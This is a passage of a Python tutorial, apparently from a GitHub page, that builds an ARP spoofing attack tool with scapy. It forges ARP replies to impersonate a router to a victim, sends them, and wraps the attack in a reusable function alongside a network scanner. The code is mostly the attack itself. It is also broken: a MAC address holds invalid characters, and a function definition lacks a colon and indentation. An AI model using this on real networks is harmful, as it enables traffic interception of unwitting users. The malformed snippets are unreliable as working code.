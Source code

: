 ```python
#!/usr/bin/env python

import scapy.all as scapy

packet = scapy.ARP(op=2, pdst="10.0.2.4", hwdst="08:23:44:R9:67:U5", psrc="10.0.2.1")

```

Now we are ready to send this packet.

```python
#!/usr/bin/env python

import scapy.all as scapy

packet = scapy.ARP(op=2, pdst="10.0.2.4", hwdst="08:23:44:R9:67:U5", psrc="10.0.2.1")
scapy.send(packet)

```

Upto now our code can fool one machine only in order to fool both victim and router both we need to copy the same code but it will better to use a function to increase the reusablity.


```python
#!/usr/bin/env python

import scapy.all as scapy

def spoof (target_ip, spoof_ip)
packet = scapy.ARP(op=2, pdst=target_ip, hwdst="08:23:44:R9:67:U5", psrc=spoof_ip)
scapy.send(packet)

```


**NOTE: We will be using some part of the code we wrote during NETWORK_SCANNER TOOL check it out because we will be using a part of it to automatically get some MAC field because it will quite annoying set all the fields manually and if you are python Ninja.


```python
def scan(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]


    clients_list= []
    for element in answered_list:
        client_dict ={"ip": element[1].psrc, "mac": element[1].hwsrc}
        clients_list.append(client_dict)

    return clients_list


```
